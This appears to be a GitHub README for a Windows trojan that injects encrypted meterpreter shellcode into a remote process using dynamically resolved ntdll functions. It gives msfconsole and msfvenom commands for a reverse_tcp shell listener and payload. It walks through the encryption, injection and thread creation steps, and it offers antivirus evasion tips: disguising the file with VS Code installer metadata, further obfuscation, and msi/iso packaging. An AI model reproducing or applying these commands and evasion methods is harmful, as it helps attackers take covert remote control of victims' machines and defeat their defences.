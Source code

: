# Native API Remote Process injection Trojan

Remote process injection trojan using Native Api functions (dynamically resolved) and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
This malware calls native api functions usei dynamically resolved function pointers from ntdll.dll, reducing static IAT footprint. So it basically retrieves addresses of native api functions at runtime and uses them to upload shellcode into a target process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) Native Api:
We get a handle to ntdll and we dynamically resolve its functions, these are the lowest level Win API calls exposed to the user mode, and are the closest interface to the Windows kernel, below them there are just system calls which i will include in the future. Unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```.
- Once we retrieve them, we can call these native NT functions directly and use them to do cool stuff : )

### 2.2) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we find the PID of the target process using GetProcID and we get a handle for it;
- We allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable;
- Then we create a new thread in the target process which will execute the shellcode.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/nt-crypt-proc-inj-msfvenom.png" width="350" />

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). 

On virus total it gets 9 detections and as usual it doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like visual studio code installer, the detections drop to 2 on virus total.

You can obfuscate it even more using tools like soggoth, or by turning it into an msi or iso file.

<img align="right" src="media/nt-crypt-proc-inj-msfvenom-reshacked.png" width="350" />
